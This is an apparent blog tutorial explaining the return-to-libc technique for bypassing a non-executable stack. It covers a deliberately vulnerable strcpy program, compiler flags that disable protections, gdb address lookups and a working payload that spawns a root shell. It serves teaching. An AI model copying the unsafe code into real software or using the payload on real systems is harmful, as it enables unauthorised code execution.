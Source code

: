 ```yaml
---
title: "Return to libc"
description: sam.png
tags: ["In this article I present to you how to exploit a vulnerability to bypass the NX system with the technique of return to libc."]
---
```


![forthebadge made-with-python](https://media.giphy.com/media/xT9IgG50Fb7Mi0prBC/giphy.gif)

Prerequisites :
- Have the basics in `pwn` to understand and attack a basic buffer overflow.
- And a computer, eh eh!

Today I would like to present an article for a new technique of `Buffer Overflow`. A relatively fun and very simple technique, are you interested? If so, let's go!

# What is the technique of return to libc ?

What we saw last time in relation to the `Buffer Overflow` to execute a` shellcode`, the `stack` had to be executable.

    root@0xEX75:~# readelf -lW ./testing |grep GNU_STACK
    GNU_STACK      0x000000 0x0000000000000000 0x0000000000000000 0x000000 0x000000 RWE 0x10
    
The `R` simply indicates that the stack is read and the letter` W` corresponds concretely to writing on the stack and finally the letter `E` corresponds to the executable stack, and it is thanks to this system that we can execute a shellcode because it is the processor which executes our shellcode.

![forthebadge made-with-python](https://2.bp.blogspot.com/-UPzV6M_ZsK8/W3B5kWiwYII/AAAAAAAAAeE/L1izLVAJGbwfh52XG4HjMtPDDMXC-bLqACLcBGAs/s1600/ret2libc.png)

In fairly specific cases, the stack is not executable so it's almost impossible to have the program execute a shellcode for `pop` a shell for example. So the experts found a solution called the `return to libc` technique, which allows you to use functions from` libc`, such as the `system();` function and then use it against the program.

# Convenient !

(For this part, we will deactivate the `ASLR`, because the technique of returning to libc works only if the stack is not executable and the ASLR is not activated.)

Here's a little script in C that doesn't do much:

    #include <stdlib.h>
    #include <stdio.h>
    #include <string.h>

    void name(char*);

    void name(char *f)
    {
        char firstname[10];
        strcpy(firstname, f);
        printf("Your name : %s\n", firstname);
    }

    int main(int argc, char *argv[])
    {
        if(argc != 2)
        {
            exit(0);
        }
        name(argv[1]);
        return 0;
    }
    
A basic program that doesn't do much, but the vulnerability is in the `strcpy();` function. I suppose you know that functions like `strcpy();`, `strcat();` etc ... are not at all secure so there is a system called `FORTIFY_SOURCE` which allows you to replace functions with much more secure functions.

Then, a small compilation is necessary:

    root@0xEX75:~/libc# gcc -m32 -fno-stack-protector libc.c -o libc
    root@0xEX75:~/libc# readelf -lW libc|grep GNU_STACK
    GNU_STACK      0x000000 0x0000000000000000 0x0000000000000000 0x000000 0x000000 RW  0x10
    
(The `E` flag is not there, so the stack is no longer executable at all.). If we try to run the program after compilation, it works, but in memory things are happening.

    root@0xEX75:~/libc# ./libc $(python -c 'print "A"*17')
    Your name : AAAAAAAAAAAAAAAAA
    root@0xEX75:~/libc# ./libc $(python -c 'print "A"*18')
    Your name : AAAAAAAAAAAAAAAAAA
    segmentation fault (core dumped)
    
We can see that the program crashes after 17 characters, so the `OFFSET` corresponds exactly to 17 characters, if we overflow, the` sEIP` backup will be completely overwritten and the program will crash automatically.

We will launch `GDB` (GNU Debugger), and we will look for the address of the` system (); `,` exit(); `function and finally a string like` /bin/sh` which will allow us to launch this particular command.

    root@0xEX75:~/libc# gdb ./libc
    GNU gdb (Debian 8.3.1-1) 8.3.1
    Copyright (C) 2019 Free Software Foundation, Inc.
    License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
    This is free software: you are free to change and redistribute it.
    There is NO WARRANTY, to the extent permitted by law.
    Type "show copying" and "show warranty" for details.
    This GDB was configured as "x86_64-linux-gnu".
    Type "show configuration" for configuration details.
    For bug reporting instructions, please see:
    <http://www.gnu.org/software/gdb/bugs/>.
    Find the GDB manual and other documentation resources online at:
        <http://www.gnu.org/software/gdb/documentation/>.

    For help, type "help".
    Type "apropos word" to search for commands related to "word"...
    Reading symbols from ./libc...
    (No debugging symbols found in ./libc)
    gdb-peda$ r AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    Starting program: /root/libc/libc AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    Your name : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

    Program received signal SIGSEGV, Segmentation fault.
    [----------------------------------registers-----------------------------------]
    EAX: 0x54 ('T')
    EBX: 0x41414141 ('AAAA')
    ECX: 0x7fffffac 
    EDX: 0xf7fae010 --> 0x0 
    ESI: 0xf7fac000 --> 0x1d6d6c 
    EDI: 0xf7fac000 --> 0x1d6d6c 
    EBP: 0x41414141 ('AAAA')
    ESP: 0xffffd290 ('A' <repeats 45 times>)
    EIP: 0x41414141 ('AAAA')
    EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
    [-------------------------------------code-------------------------------------]
    Invalid $PC address: 0x41414141
    [------------------------------------stack-------------------------------------]
    0000| 0xffffd290 ('A' <repeats 45 times>)
    0004| 0xffffd294 ('A' <repeats 41 times>)
    0008| 0xffffd298 ('A' <repeats 37 times>)
    0012| 0xffffd29c ('A' <repeats 33 times>)
    0016| 0xffffd2a0 ('A' <repeats 29 times>)
    0020| 0xffffd2a4 ('A' <repeats 25 times>)
    0024| 0xffffd2a8 ('A' <repeats 21 times>)
    0028| 0xffffd2ac ('A' <repeats 17 times>)
    [------------------------------------------------------------------------------]
    Legend: code, data, rodata, value
    Stopped reason: SIGSEGV
    0x41414141 in ?? ()
    gdb-peda$ p system
    $1 = {<text variable, no debug info>} 0xf7e17660 <system> # ADDRESS FUNCTION SYSTEM
    gdb-peda$ p exit
    $2 = {<text variable, no debug info>} 0xf7e0a6f0 <exit> # ADDRESS FUNCTION EXIT
    gdb-peda$ searchmem "/bin/sh"
    Searching for '/bin/sh' in: None ranges
    Found 1 results, display max 1 items:
    libc : 0xf7f54f68 ("/bin/sh") # ADDRESS /BIN/SH
    
So, we managed to capture the addresses of `system();`, `exit()` and finally of the string `"/bin/sh "`.

- `system();` : `0xf7e17660`
- `exit();`   : `0xf7e0a6f0`
- `/bin/sh`   : `0xf7f54f68`

![forthebadge made-with-python](https://fundacion-sadosky.github.io/guia-escritura-exploits/esoteric/imagenes/ret-2-libc.png)

Now just use the addresses we captured against the program to `pop` a shell. If we took the `exit()` function, it's just to exit the shell correctly, because if we don't put the `exit();` function, and we leave the shell, it will display a nice `segfault`, so not very nice to see, you don't have to put it anyway, it's completely optional.

    root@0XEX75:~/libc# ./libc $(python -c 'print "A"*22 + "\x60\x76\xe1\xf7" + "\xf0\xa6\xe0\xf7" + "\x68\x4f\xf5\xf7"')
    Your name : AAAAAAAAAAAAAAAAAAAAAA`vhO
    # whoami
    root
    # id
    uid=0(root) gid=0(root) groupes=0(root)

![forthebadge made-with-python](https://media.giphy.com/media/XqXDNFZREKMBq/giphy.gif)

# CONCLUSION !

Here we are, we finally come to the end of this article which, I hope, will have you more. I tried to explain to you how the `technique of returning to libc` works, don't hesitate to contact me on social networks, I'm always available to answer you.
